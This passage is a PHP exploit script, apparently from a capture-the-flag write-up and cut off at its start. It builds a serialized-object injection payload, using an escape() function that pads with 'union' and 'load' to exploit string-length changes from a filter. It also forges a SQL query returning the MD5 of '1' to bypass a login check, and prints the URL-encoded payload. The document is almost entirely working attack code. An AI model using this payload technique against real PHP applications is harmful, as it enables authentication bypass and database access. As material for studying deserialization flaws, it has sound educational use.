 ```php
    public $age="";
    public $nickname="";
    public $CtrlCase;
    public function __construct(){
        $this->CtrlCase=new dbCtrl();
    }
//    public function __call($name,$argument){//反序列化
//        echo $this->CtrlCase->login($argument[0]);
//    }
}
class dbCtrl
{
    public $hostname = "127.0.0.1";
    public $dbuser = "noob123";
    public $dbpass = "noob123";
    public $database = "noob123";
//    public $hostname = "127.0.0.1";
//    public $dbuser = "root";
//    public $dbpass = "123456";
//    public $database = "test";
    public $name="admin";
    public $password="1";
    public $mysqli;
    public $token;
}
class User
{
    public $id=0;
    public $age;
    public $nickname;
    public function __construct()
    {
        $this->nickname=new Info();
        $this->age='select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';
    }
}
function escape($str)
{
    $evil='';
    $len=strlen($str)+2;
    if($len%2)
    {
        $evil.="union";
        $len-=1;
    }
    $len/=2;
    while($len)
    {
        $evil.="load";
        $len-=1;
    }
    return $evil.'";'.$str;

}
$call__tostring=new UpdateHelper(new User());
$ser= urlencode(serialize($call__tostring));
echo urlencode(escape("s:8:\"CtrlCase\";".urldecode($ser).';};'));

```
